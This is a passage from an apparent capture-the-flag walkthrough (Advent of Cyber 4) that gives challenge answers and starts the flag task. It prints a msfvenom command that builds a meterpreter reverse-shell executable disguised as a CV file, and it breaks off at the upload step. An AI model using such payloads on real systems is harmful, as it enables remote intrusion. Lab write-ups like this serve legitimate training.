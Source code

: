 Answer : Unrestricted

### What is the title of the web application developed by Santa's freelancer?

![SantaSideKick2](/images/thm/adventofcyber4/adventofcyber4_99.png)
_SantaSideKick2_

Answer : SantaSideKick2

### What is the value of the flag stored in the HR Elf's Documents directory?

First, we need to generate a payload to be executed to gain a reverse shell. We can create a simple exe payload as it was tested and not blocked :

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.225.12 LPORT=6666 -f exe -o cv-username.exe
```
{: .nolineno }

![payload](/images/thm/adventofcyber4/adventofcyber4_100.png)
_payload_

We can now upload this file on the website :

